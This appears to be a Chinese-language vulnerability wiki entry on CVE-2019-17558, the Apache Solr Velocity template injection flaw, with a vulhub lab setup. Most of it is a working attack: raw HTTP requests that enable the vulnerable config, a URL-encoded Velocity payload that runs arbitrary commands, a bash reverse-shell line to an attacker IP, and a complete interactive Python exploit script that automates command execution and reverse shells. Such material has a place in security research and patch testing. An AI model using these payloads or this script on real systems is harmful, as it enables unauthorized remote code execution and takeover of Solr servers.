




# Apache Solr Velocity模板远程执行 CVE-2019-17558

## 漏洞描述

2019年10月末，GitHub代码中安全研究员S00pY发布一个Apache Solr Velocity模版注入远程命令执行的POC，发现网络上出现针对Apache Solr服务器的远程代码执行漏洞。该漏洞是由于Velocity模板存在注入所致（Velocity是一个基于Java的模板引擎，可让使用者通过模板语言引用Java中定义的对象）。攻击者在知道Solr服务器上Core名称后，先把`params.resource.loader.enabled`设置为true（就可加载指定资源），再进行远程执行命令。

## 漏洞影响

```
Apache Solr 5.x 至 8.2.0
```

## 环境搭建

```shell
https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现

打开后获取 Core 信息



得知 test 这个 Core 存在

访问 http://xxx.xxx.xxx.xxx:8983/solr/test/config 正常




访问Core的config配置信息时，通过POST请求把params.resource.loader.enabled设置为 True，再通过精心构造的get请求即可RCE，此时用户就可以加载指定资源，构造一个能执行命令的恶意请求

**设置params.resource.loader.enabled为True**



```shell
POST /solr/test/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
Content-Length: 259

{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

**命令执行**

再使用POC造成命令执行



```plain
http://xxx.xxx.xxx.xxx:8983/solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x="")+%23set($rt=$x.class.forName("java.lang.Runtime"))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName("java.lang.String"))+%23set($ex=$rt.getRuntime().exec("whoami"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

反弹hell，因为部分命令会被过滤导致返回 Error 500 ，所以反弹shell需要用另外的反弹shell方法

```plain
POC : /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1

POC需要Urlencoding进行编码才能绕过
POC ： %2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261
```

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr 5.0.0 - 8.3.1      \033[0m')
    print('+  \033[36m使用格式: python3 cve-2019-17558.py      \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mCmd    >>> whoami(命令执行)              \033[0m')
    print('+  \033[36mCmd    >>> shell(反弹shell)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)


def POC_2(target_url, core_name):
    open_params = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    set_api_data = """
    {
      "update-queryresponsewriter": {
        "startup": "lazy",
        "name": "velocity",
        "class": "solr.VelocityResponseWriter",
        "template.base.dir": "",
        "solr.resource.loader.enabled": "true",
        "params.resource.loader.enabled": "true"
      }
    }
    """
    response = requests.request("POST", url=open_params, data=set_api_data, headers=headers, timeout=10)
    if response.status_code == 200:
        print("\033[32m[o] POST请求成功将params.resource.loader.enabled设置为True \033[0m")
    else:
        print("\033[31m[x] POST请求params.resource.loader.enabled设置为True失败 \033[0m")
        sys.exit(0)

def POC_3(target_url, core_name, cmd):
    vnul_url = target_url + "/solr/" + core_name + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vnul_url, headers=headers, timeout=10)
    if "Error 500" in response.text:
        print("\033[31m[x] 代码执行失败，响应为 Error 500 \033[0m")
    else:
        print("\033[32m[o] 漏洞成功利用,响应为\n \033[0m",response.text)

def POC_4(target_url, core_name, IP, POST):
    # POC : /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
    cmd = "%2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261".format(IP, POST)
    vnul_url = target_url + "/solr/" + core_name + "/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    response = requests.request("GET", url=vnul_url, headers=headers)

if __name__ == "__main__":
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name   = POC_1(target_url)
    POC_2(target_url, core_name)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            exit(0)
        elif cmd == "shell":
            IP   = str(input("\033[35m请输入监听IP   >>> \033[0m"))
            PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
            POC_4(target_url, core_name, IP, PORT)
        else:
            POC_3(target_url, core_name, cmd)
```

